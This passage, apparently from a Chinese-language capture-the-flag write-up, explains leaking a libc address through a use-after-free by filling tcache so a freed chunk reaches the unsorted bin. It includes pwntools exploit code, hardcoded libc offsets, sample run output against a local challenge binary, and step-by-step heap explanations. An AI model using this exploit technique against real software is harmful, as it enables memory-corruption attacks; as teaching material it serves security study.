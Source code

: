 ### 如何用UAF leak libc address?
主要的大方向是設法讓chunk進入unsorted bin中，這樣他就會儲存有關libc的資訊，之後我們再像前面的UAF方法一樣，把值leak出來
```python

## Leak libc address
for i in range(0x9):
    register(i)
    set_name(i, 0x88, b'a')

for i in range(0x9):
    delete(i)
    
for i in range(0x8):
    register(i)
    set_name(i, 0x88, b'a')

trigger_event(7)
r.recvuntil(b'Name: ')
leak_libc = u64(r.recv(6).ljust(0x8, b'\x00'))
libc_base = leak_libc - 0x1ecc61
system_addr = libc_base + 0x52290
log.success(f'Leak libc address = {hex(leak_libc)}')
log.success(f'Libc base address = {hex(libc_base)}')
log.success(f'System address = {hex(system_addr)}')
```
```bash
$ python exp.py
[+] Starting local process './chal': pid 5414

[+] Leak libc address = 0x7fd98248dc61
[+] Libc base address = 0x7fd9822a1000
[+] System address = 0x7fd9822f3290
[*] Switching to interactive mode

EVENT: get event named "Default Event"!
Invalid command
1. register entity
2. delete entity
3. set name
4. trigger event
choice: $
```

1. 首先要先構造chunks，為了要把tcache塞滿，我們要register 9個chunk，要9個的原因是之後free掉的時候最後一個會被top chunk consolidate，所以被丟到tcache的數量就不滿8個；另外為了要進到unsorted bin中，我們的大小就不能小於0x80，這樣會被丟到fastbin中，所以chunk的順序應該會是entity 0(0x20→0x90)→entity 1(0x20→0x90)...→entity 8(0x20→0x90)→top
    ![圖片](https://hackmd.io/_uploads/By5BNboSp.png)

    ![圖片](https://hackmd.io/_uploads/Sk1KXbirT.png)
2. 接著就是把東西全部free掉，試圖塞滿tcache，可以從下圖看到他的確把最後一個chunk(0x90)併到top chunk，
    ![圖片](https://hackmd.io/_uploads/ryMpBZoBa.png)
    